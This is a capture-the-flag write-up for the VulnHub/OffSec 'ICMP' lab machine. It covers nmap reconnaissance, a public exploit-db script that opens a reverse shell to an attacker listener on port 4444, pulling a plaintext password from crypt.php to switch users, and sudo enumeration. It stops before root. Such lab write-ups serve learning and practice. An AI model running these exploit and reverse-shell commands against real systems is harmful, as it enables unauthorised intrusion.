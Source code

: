 ```yaml
---
description: VulnHub & OffSec ICMP machine writeup
cover: ../.gitbook/assets/image (20).png
coverY: 0
---
```


# \[Intermediate] ICMP

### Recon

#### Services                                                                                                                                                               21ms  ✓&#x20;

```bash
─$ nmap -sC -sV -v -T5 icmp                                     
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 deb52389bb9fd41ab50453d0b75cb03f (RSA)
|   256 160914eab9fa17e945395e3bb4fd110a (ECDSA)
|_  256 9f665e71b9125ded705a4f5a8d0d65d5 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-title:             Monitorr            | Monitorr        
|_Requested resource was http://icmp/mon/
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Subdirs

<figure><img src="../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

#### Monitorr

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

\+ link on repo:

{% embed url="https://github.com/Monitorr/Monitorr" %}

### www-data

Exploit:&#x20;

{% embed url="https://www.exploit-db.com/exploits/48980" %}

{% code overflow="wrap" %}
```bash
$  python3 48980.py http://192.168.110.218/mon/ 192.168.49.110 4444
```
{% endcode %}

<pre class="language-bash"><code class="lang-bash">$ ncat -nvlp 4444 
<strong>www-data@icmp:/var/www/html/mon/assets/data/usrimg$ pwd
</strong>/var/www/html/mon/assets/data/usrimg
</code></pre>

### Privelege Escalation

#### www-data to fox

<mark style="color:red;">`pspy`</mark> <mark style="color:red;"></mark><mark style="color:red;"></mark> enum didn't gave me anything, so I checked machine for another users:

```bash
www-data@icmp:/var/www/html/mon/assets/data/usrimg$ ls /home    
ls /home
fox
www-data@icmp:/var/www/html/mon/assets/data/usrimg$ ls -lsa /home/fox
ls -lsa /home/fox
total 20
4 drwxr-xr-x 3 root root 4096 Dec  3  2020 .
4 drwxr-xr-x 3 root root 4096 Dec  3  2020 ..
0 lrwxrwxrwx 1 root root    9 Dec  3  2020 .bash_history -> /dev/null
4 drwx--x--x 2 fox  fox  4096 Dec  3  2020 devel
4 -rw-r--r-- 1 fox  fox    33 Feb 27 19:04 local.txt
4 -rw-r--r-- 1 root root   78 Dec  3  2020 reminder

```



Checking <mark style="color:orange;">`reminder`</mark> we get a hint:

```bash
www-data@icmp:/home/fox$ cat reminder

crypt with crypt.php: done, it works
work on decrypt with crypt.php: howto?!?
```

<pre class="language-php"><code class="lang-php">www-data@icmp:/home/fox$ cat devel/crypt.php
<strong>&#x3C;?php
</strong><strong>echo crypt('BUHNIJMONIBUVCYTTYVGBUHJNI','da'); 
</strong><strong>?>
</strong></code></pre>

```bash
www-data@icmp:/home/fox$ ls
ls
devel
local.txt
reminder
www-data@icmp:/home/fox$ su fox
su fox
Password: BUHNIJMONIBUVCYTTYVGBUHJNI

$ python -c 'import pty; pty.spawn("/bin/bash")'

fox@icmp:~$ whoami
whoami
fox
```

#### fox to root

<mark style="color:red;">`sudo -l:`</mark>

```bash
fox@icmp:~$ sudo -l 
sudo -l 
Matching Defaults entries for fox on icmp:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User fox may run the following commands on icmp:
    (root) /usr/sbin/hping3 --icmp *
    (root) /usr/bin/killall hping3

```

\~ soon \~
